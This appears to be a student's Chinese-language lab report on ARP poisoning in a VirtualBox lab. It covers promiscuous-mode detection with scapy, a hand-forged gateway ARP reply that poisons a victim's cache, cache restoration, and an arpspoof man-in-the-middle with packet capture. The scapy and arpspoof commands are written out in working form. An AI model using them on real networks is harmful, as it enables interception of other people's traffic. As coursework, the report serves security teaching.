# Chap 0x04
> author: 807544076

## 实验要求

* [x] 实验一：检测局域网中的异常终端

* [x] 实验二：手工单步“毒化”目标主机的 ARP 缓存

* [x] 实验三（可选）使用自动化工具完成 ARP 投毒劫持实验

* [ ] 实验四（可选）基于 scapy 编写 ARP 投毒劫持工具

## 实验环境
宿主机：Windows 10 家庭版
虚拟机：Virtualbox
* kali 2022
* windows xp
* debain 10

## 实验准备
攻击者机器安装 `Scapy`

```bash
sudo apt update && sudo apt install python3 python3-pip 

pip3 install scapy
```

搭建网络拓扑



## 实验过程
### 1. 检测局域网中的异常终端

在受害者主机上查看 `混杂模式` 是否开启

```bash
ip link show eth0
```



未显示 `PROMISC` 字样，说明混杂模式未开启

在攻击者主机上使用 scapy 发送 promiscping

```bash
sudo scapy
>>> ptk = promiscping("172.16.111.106")
```

结果：未响应



在受害者主机上开启混杂模式
```bash
sudo ip link set eth0 promisc on

ip link show eth0
```



再次在 scapy 上发送，得到结果



最后关闭混杂模式

```bash
sudo ip link set eth0 promisc off
```

### 2. 手工单步“毒化”目标主机的 ARP 缓存

在攻击者主机上用 scapy 构造 arp 请求，获取网关 MAC 地址

```py
ab = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,pdst="172.16.111.1")

ab.show()
```



发送请求并从回应中提取出网关的 MAC 地址

```py
re = srp(ab, timeout=2)

gw_mac = re[0][0][1].hwsrc
```



伪造网关的 ARP 响应包
```py
ap = Ether()/ARP(op=2,psrc="172.16.111.1",pdst="172.16.111.106",hwdst="08:00:27:45:b7:6b")

###[ Ethernet ]### 
  dst= 08:00:27:30:62:30
  src= 08:00:27:45:b7:6b # 攻击者 MAC
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= is-at
     hwsrc= 08:00:27:45:b7:6b
     psrc= 172.16.111.1 # 伪装成网关 IP
     hwdst= 08:00:27:45:b7:6b
     pdst= 172.16.111.106 # 发给受害者主机


sendp(ap)
```



发送后查看受害者主机的 arp 缓存
```bash
ip neigh
```



发现网关 MAC 和攻击者主机 MAC 一致，投毒成功

接下来恢复受害者主机的 arp 缓存
用 scapy 构造

```py
rp=Ether()/ARP(op=2,psrc="172.16.111.1",hwsrc="08:00:27:a0:cc:a6",pdst="172.16.111.106")

sendp(rp)
```

再次查看受害者主机 arp 缓存
发现恢复成功



### 3. 使用自动化工具完成 ARP 投毒劫持实验

使用工具 `arpspoof`

对网关进行欺骗，伪装成受害者主机

```bash
sudo arpspoof -i eth0 -t 172.16.111.1 172.16.111.106
```



查看网关 arp 缓存，发现投毒成功



再对受害者主机进行欺骗，伪装成网关



查看受害者主机 arp 缓存，发现投毒成功



用受害者主机 ping 网关



在攻击者主机抓包，成功捕获




## 遇到的问题及解决
使用 scapy 报错 `operation not permitted`


解决：使用 sudo 提升权限

scapy 发出的包未到达受害者主机


解决：在 `ARP()` 前添加 `Ether()` 项即可

## 参考资料
[arpspoof 工具](https://developer.aliyun.com/article/666694)

[老师的实验教程](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
